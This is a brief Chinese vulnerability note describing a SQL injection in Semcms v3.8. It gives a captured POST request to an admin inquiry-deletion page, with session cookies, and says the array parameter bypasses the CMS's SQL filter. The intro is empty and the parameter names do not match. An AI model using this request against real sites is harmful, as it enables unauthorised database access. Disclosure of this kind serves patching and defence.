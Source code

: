 Semcms v3.8 sql注入漏洞
=======================

一、漏洞简介
------------

二、漏洞影响
------------

Semcms v3.8

三、复现过程
------------

> URL: <http://0-sec.org/123/sOWj5B_Admin/SEMCMS_Inquiry.php>
>
> ![](resource/Semcmsv3.8sql注入漏洞/media/rId25.png){width="5.833333333333333in"
> height="2.9166666666666665in"}Debug：Defense module is
> class.phpmailer.php and function
> inject\_check\_sql![](resource/Semcmsv3.8sql注入漏洞/media/rId26.png){width="5.833333333333333in"
> height="0.4946084864391951in"}But VID\[\] didn\'t handle it

-   POST

```{=html}
<!-- -->
```
    POST /123/sOWj5B_Admin/SEMCMS_Inquiry.php?Class=Deleted&CF=Inquriy&page= HTTP/1.1
    Host: 0-sec.org
    Content-Length: 24
    Cache-Control: max-age=0
    Origin: http://127.0.0.1
    Upgrade-Insecure-Requests: 1
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Referer: http://127.0.0.1/123/sOWj5B_Admin/SEMCMS_Inquiry.php
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: MEIQIA_EXTRA_TRACK_ID=1F7WZdk3rwHIzKqUfkrNaZ9t1EE; _ga=GA1.1.1842664860.1547715044; UM_distinctid=169c55686280-0636c606d502d3-36664c08-1fa400-169c556862b2e4; CNZZDATA1256162028=1606185978-1553793969-%7C1553793969; CNZZDATA1707573=cnzz_eid%3D987595238-1554794879-http%253A%252F%252F127.0.0.1%252F%26ntime%3D1554913098; PHPSESSID=n75nrqp26757vguhhgd4mlptd4; __51cke__=; __tins__4329483=%7B%22sid%22%3A%201556088941568%2C%20%22vd%22%3A%203%2C%20%22expires%22%3A%201556090843766%7D; __51laig__=3; scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b
    Connection: close

    languageID=&AID%5B%5D=3

image

